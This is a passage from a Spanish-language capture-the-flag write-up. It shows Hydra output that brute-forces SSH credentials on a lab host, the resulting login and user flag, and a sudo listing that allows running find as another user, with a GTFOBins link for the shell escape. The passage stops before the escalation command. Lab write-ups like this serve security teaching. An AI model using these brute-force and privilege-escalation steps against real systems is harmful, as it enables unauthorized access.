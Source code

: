 Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-13 11:05:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 107 login tries (l:1/p:107), ~2 tries per task
[DATA] attacking ssh://172.19.0.2:22/
[22][ssh] host: 172.19.0.2   login: e1i0t   password: eliotelmejor
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-13 11:05:51
```

Por lo que vemos nos saca las credenciales del usuario, asi que nos conectaremos por SSH mejor con dicho usuario.

## SSH

```shell
ssh e1i0t@<IP>
```

Metemos la contraseña `eliotelmejor` y ya estariamos dentro.

Leemos la flag del usuario.

> user.txt

```
d8109448593f23776d57bd512f322eff
```

## Escalate user an0n1mat0

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for e1i0t on 63ccda3ff003:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User e1i0t may run the following commands on 63ccda3ff003:
    (an0n1mat0 : an0n1mat0) NOPASSWD: /bin/find
```

Por lo que podemos ejecutar como el usuario `an0n1mat0` el binario `find`, con este binario hay una vulnerabilidad de permisos, si hacemos lo siguiente seremos el usuario `an0n1mat0`.

URL = https://gtfobins.github.io/gtfobins/find/#shell
